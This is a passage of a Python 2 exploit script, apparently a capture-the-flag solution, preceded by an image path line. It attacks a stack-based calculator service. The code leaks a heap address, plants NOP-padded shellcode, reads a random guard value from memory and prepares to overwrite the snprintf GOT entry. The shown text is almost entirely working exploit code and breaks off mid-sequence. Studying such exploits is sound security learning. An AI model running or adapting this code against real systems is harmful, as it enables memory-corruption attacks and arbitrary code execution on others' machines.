                     total = i
                expression.append(str(i))
            if num == total:
                break
        num -= total
        e = "".join(expression) + ("*" * (len(expression) - 1))
        out.append(e)
    o = "".join(out) + ("+" * (len(out) - 1)) + str(num) + "+"
    send_vals(r, o)

def write_vals(r, v):
    for a in [v[i:i+4] for i in range(0, len(v), 4)]:
        num = u32(a)
        write_num(r, num)

def leak_heap_addr(r):
    new_stack(r)
    return top_val(r)

# Create stack #1 to leak heap address
new_stack(r)
r.recvuntil("==> ")

heap_addr = int(leak_heap_addr(r).split("\n")[0], 10)
print "[+] Leaked heap addr: 0x%08x" % heap_addr

# Create stack #2 in order to leak random value
new_stack(r)

# Getting the next stack puts us back at stack #1
next_stack(r)

# Throw our shellcode into stack #1
padding = string.ljust(shellcode, 0xac, "\x90")
write_vals(r, padding)

# Position stack #2s top of stack to point to random value
random_val_offset = -0xb4
write_num(r, heap_addr + random_val_offset)

# Shift back to stack #2 and read random value from top of stack
next_stack(r)
random_value = int(top_val(r).split("\n")[0], 10)
print "[+] Got random value: 0x%08x" % random_value

overwrite_got = elf.got["snprintf"]

# Create stack #3 and #4
new_stack(r)
new_stack(r)

# Shift from stack #4 back to stack #3
next_stack(r) # Stack 1
next_stack(r) # Stack 2
next_stack(r) # Stack 3
